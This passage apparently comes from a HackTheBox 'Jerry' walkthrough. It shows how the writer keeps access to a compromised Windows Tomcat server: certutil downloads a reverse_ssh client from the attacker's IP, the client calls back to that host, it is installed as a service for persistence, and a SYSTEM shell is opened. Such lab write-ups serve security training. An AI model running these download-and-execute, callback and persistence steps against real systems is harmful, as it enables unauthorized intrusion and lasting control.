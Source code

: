 

## Get a stable shell

Use [reverse ssh](https://github.com/NHAS/reverse_ssh)

Start listener

```bash
┌──(bravosec㉿fsociety)-[~/htb/Jerry]
└─$ cd /opt/sectools/c2/reverse_ssh/bin && ./server 0.0.0.0:22521
```

Deploy client

```bash
C:\apache-tomcat-7.0.88>certutil.exe -urlcache -split -f http://10.10.16.13/win/client.exe c:\programdata\client.exe
certutil.exe -urlcache -split -f http://10.10.16.13/win/client.exe c:\programdata\client.exe
****  Online  ****
  000000  ...
  ea7a00
CertUtil: -URLCache command completed successfully.

C:\apache-tomcat-7.0.88>c:\programdata\client.exe -d 10.10.16.13:22521
c:\programdata\client.exe -d 10.10.16.13:22521
```

Connect and implant persistence

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/c2/reverse_ssh/bin]
└─$ ssh 127.0.0.1 -p 22521 ls -t
                            Targets
+------------------------------------------+--------------------------+
| IDs                                      | Version                  |
+------------------------------------------+--------------------------+
| 7dfa16d3907419ee07fe1a3c2a3cc07ff950af21 | SSH-v2.1.5-windows_amd64 |
| fc93c7f5275f694f3ebec8fb4c6f02c3aba98b1c |                          |
| nt.authority.system.jerry                |                          |
| 10.129.136.9:49199                       |                          |
+------------------------------------------+--------------------------+

┌──(bravosec㉿fsociety)-[/opt/sectools/c2/reverse_ssh/bin]
└─$ ssh -J 127.0.0.1:22521 nt.authority.system.jerry -s service --install
```

Open a shell

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/c2/reverse_ssh/bin]
└─$ ssh -J 127.0.0.1:22521 nt.authority.system.jerry
The authenticity of host 'nt.authority.system.jerry (<no hostip for proxy command>)' can't be established.
ED25519 key fingerprint is SHA256:PJ4998W37q0v63SAqd5HV1tgLN2FZsxwqh7fmFWc3RU.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:114: [hashed name]
    ~/.ssh/known_hosts:115: [hashed name]
    ~/.ssh/known_hosts:121: [hashed name]
    ~/.ssh/known_hosts:123: [hashed name]
    ~/.ssh/known_hosts:124: [hashed name]
    ~/.ssh/known_hosts:127: [hashed name]
    ~/.ssh/known_hosts:128: [hashed name]
    ~/.ssh/known_hosts:129: [hashed name]
    (18 additional names omitted)
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'nt.authority.system.jerry' (ED25519) to the list of known hosts.
Windows PowerShell
Copyright (C) 2014 Microsoft Corporation. All rights reserved.
```